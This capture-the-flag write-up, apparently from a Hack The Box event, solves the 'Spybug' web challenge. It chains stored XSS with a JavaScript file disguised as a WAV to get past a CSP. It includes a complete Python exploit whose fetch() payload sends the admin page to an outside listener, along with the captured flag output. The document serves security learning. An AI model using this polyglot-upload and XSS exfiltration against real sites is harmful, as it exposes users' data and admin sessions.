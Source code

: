 # [Web - medium] Spybug

This webapp consists in an API written in JS, allowing agents (an agent is a tuple (hostname,platform,arch)) to register themselves, and upload WAV sounds to the `/uploads` folder. There is also a bot loggin in as admin every minute and checking the main dashboard which displays agent information.

The admin username contains the flag and is displayed in the dashboard as welcome message.

This challenge consists in exploiting 2 vulnerabilities:

- the agent information is displayed as-is in the dashboard: it is vulnerable to XSS, which will be triggered by the admin bot every minute. However the webapp is using CSP (Content Security Policy) with `script-src 'self'`: the XSS must only include local file scripts. That's where the second vulnerability will be useful
- the uploaded WAV sounds in `/uploads` can be anything, as long as:
  - the uploaded file contains (anywhere in the file) the WAV magic bytes
  - the content type is `audio/wave`
  - the filename ends with `.wav`

The path to victory is to:

- register a new agent, get its `uuid`
- upload the agent WAV file using that `uuid`. The WAV file will be in fact a Javascript script exfiltrating (using `fetch()`) the content of the admin dashboard, but meets all the upload requirements. The most difficult is that the file must contain the WAV magic bytes `/52494646[a-z0-9]{8}57415645/g`. It can be anywhere in the file, so at the end of the Javascript file as comment is fine.
- update the agent information, so that the `hostname` is the XSS including the uploaded file
- use a HTTP listener to get the exfiltrated page content

The final script is:
```python
import requests
import json

endpoint = "http://68.183.37.122:30812"

s = requests.Session()
response = s.get(endpoint + '/agents/register')
agent = json.loads(response.text)
print(agent)
identifier = agent['identifier']
token = agent['token']

js_payload = "fetch('http://1.2.3.4:4444/exfil' + '?' + document.body.textContent);//"
files={'recording': ('aaa.wav', js_payload.encode('utf8') + bytearray.fromhex('52494646aaaaaaaa57415645'), 'audio/wave')}
response = s.post(endpoint + '/agents/upload/{}/{}'.format(identifier, token), files=files)
javascript = response.text

details = {
    'hostname': "<script src='/uploads/{}'></script>".format(javascript),
    'platform': "bbb",
    'arch': 'bbb'
}

response = s.post(endpoint + '/agents/details/{}/{}'.format(identifier, token), json = details)
print(response.text)
```

And its output:

```bash
$ python lol.py
{'identifier': 'aa9cbafb-16c9-4426-8720-40964e6449fa', 'token': '51ac9a77-cc46-416c-863b-f752c442e6d5'}
OK
```

And waiting for our XSS callback from the admin bot:

```bash
pi@raspberrypi:/tmp/lol $ python -m http.server 4444
Serving HTTP on 0.0.0.0 port 4444 (http://0.0.0.0:4444/) ...
68.183.37.122 - - [25/Mar/2023 07:41:38] code 404, message File not found
68.183.37.122 - - [25/Mar/2023 07:41:38] "GET /exfil?%C2%A0Spybug%20v1Log-outWelcome%20back%20HTB{p01yg10t5_4nd_35p10n4g3}%C2%A0AgentsIDHostnamePlatformArchaa9cbafb-16c9-4426-8720-40964e6449fa HTTP/1.1" 404 -
```
